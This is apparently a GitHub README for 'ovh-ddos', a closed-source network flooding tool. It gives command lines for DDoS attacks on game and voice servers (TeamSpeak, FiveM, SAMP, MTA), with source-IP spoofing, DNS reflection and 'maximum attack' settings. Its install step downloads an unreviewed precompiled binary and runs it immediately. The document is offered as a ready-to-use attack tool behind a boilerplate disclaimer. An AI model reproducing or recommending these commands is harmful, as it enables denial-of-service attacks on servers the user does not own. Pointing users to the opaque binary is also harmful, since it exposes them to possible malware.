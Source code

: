 # ovh-ddos - Advanced Network Flood Tool

&#x20;

## 🚀 Overview

ovh-ddos is a powerful network testing tool designed for stress-testing various online services. It provides multiple attack vectors, allowing researchers to analyze network resilience against different types of traffic floods.

⚠️ **Disclaimer**: This tool is intended for educational and security research purposes only. Unauthorized usage against systems you do not own is illegal and strictly prohibited.

## 🔧 Installation

```bash
# Download the precompiled binary
wget https://raw.githubusercontent.com/joshgilian/ovh-ddos/refs/heads/main/ovh-ddos
chmod +x ovh-ddos ; ./ovh-ddos
```

## 📌 Usage

```bash
./ovh-ddos -i <interface> -h <host> [action] [options]
```

### 🎯 Example Usage

#### TeamSpeak Flood
```bash
./ovh-ddos -T -h ipadress -p teamspeakport -s sourceip -j pps -m thread -i interface
```

#### Maximum TeamSpeak Attack
```bash
./ovh-ddos -T -h ip -p 9987 -s random -j 800000000 -m 32 -i eth0
```

*The maximum attack configuration applies to all attack types and options for peak efficiency.*

#### SAMP Flood
```bash
./ovh-ddos -F -h ipadress -p sampport -s sourceip -j pps -m thread -i interface
```

#### FiveM Flood
```bash
./ovh-ddos -B -h ipadress -p 30120 -s sourceip -j pps -m thread -i interface
```

#### MTA Flood
```bash
./ovh-ddos -Q -h ipadress -p mtaport -s sourceip -j pps -m thread -i interface
```

## 🛠 Attack Types

| Action | Description                        |
| ------ | ---------------------------------- |
| `-T`   | TeamSpeak Flood (Verified packets) |
| `-B`   | FIVEM Flood (Partial validation)   |
| `-G`   | Growtopia/GTPS Flood               |
| `-L`   | TCP Middleboxes Attack             |
| `-F`   | SAMP Flood (Requires hexl.txt)     |
| `-Q`   | MTA Flood                          |
| `-W`   | DNS Reflection                     |

## ⚙️ Options

| Option           | Description                          |
| ---------------- | ------------------------------------ |
| `-i [interface]` | Specify network interface (Required) |
| `-h [host]`      | Target host(s)                       |
| `-p [port]`      | Target port (Default: Random)        |
| `-s [ip]`        | IP spoofing (CIDR supported, use `-s spoofing` for random source IPs) |
| `-j [pps]`       | Packets per second limit             |
| `-m [threads]`   | Number of threads (Default: 1)       |
| `-t [time]`      | Attack duration in seconds           |
| `--help`         | Show usage help                      |

## 🔥 Future Updates

If this project reaches **10+ GitHub stars**, new attack types will be added, including:

- **RAGE-MP Flood** (Targeting multiplayer game servers)
- **Rust Game Flood** (Packet stress testing for Rust servers)
- **More attack vectors** for testing various online services!

If this project reaches **50+ GitHub stars**, the **source code** will be made publicly available!

## ⚖️ Legal Disclaimer

This tool should only be used for testing and educational purposes on systems you have explicit permission to assess. The author is not responsible for any misuse of this software.

## 📜 License

This project is closed-source and proprietary. Redistribution, modification, or reverse engineering of the binary is strictly prohibited. Unauthorized use is not permitted.

